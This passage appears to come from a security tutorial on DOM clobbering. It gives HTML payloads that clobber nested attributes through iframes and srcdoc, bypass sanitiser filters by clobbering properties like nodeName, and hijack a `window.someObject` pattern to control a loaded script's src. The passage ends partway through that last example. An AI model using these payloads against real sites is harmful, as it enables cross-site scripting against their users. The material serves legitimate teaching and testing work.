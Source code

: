 Clobbering more attributes is **more complicated but still possible**, using iframes:

```html
<iframe name=x srcdoc="<a id=y href=controlled></a>"></iframe>
<style>@import 'https://google.com';</style>
<script>alert(x.y)//controlled</script>
```

{% hint style="warning" %}
The style tag is used to **give enough time to the iframe to render**. Without it you will find an alert of **undefined**.
{% endhint %}

To clobber deeper attributes, you can use **iframes with html encoding** this way:

```html
<iframe name=a srcdoc="<iframe srcdoc='<iframe name=c srcdoc=<a/id=d&amp;amp;#x20;name=e&amp;amp;#x20;href=\controlled&amp;amp;gt;<a&amp;amp;#x20;id=d&amp;amp;gt; name=d>' name=b>"></iframe>
<style>@import 'https://google.com';</style>
<script>
alert(a.b.c.d.e)//controlled
</script>
```

### **Filter Bypassing**

If a filter is **looping** through the **properties** of a node using something like `document.getElementByID('x').attributes` you could **clobber** the attribute **`.attributes`** and **break the filter**. Other DOM properties like **`tagName`** , **`nodeName`** or **`parentNode`** and more are also **clobberable**.

```html
<form id=x></form>
<form id=y>
<input name=nodeName>
</form>
<script>
console.log(document.getElementById('x').nodeName)//FORM
console.log(document.getElementById('y').nodeName)//[object HTMLInputElement]
</script>
```

## **Clobbering `window.someObject`**

A common pattern used by JavaScript developers is:

```javascript
var someObject = window.someObject || {};
```

If you can control some of the HTML on the page, you can clobber the `someObject` reference with a DOM node, such as an anchor. Consider the following code:

```html
<script>
 window.onload = function(){
    let someObject = window.someObject || {};
    let script = document.createElement('script');
    script.src = someObject.url;
    document.body.appendChild(script);
 };
</script>
```
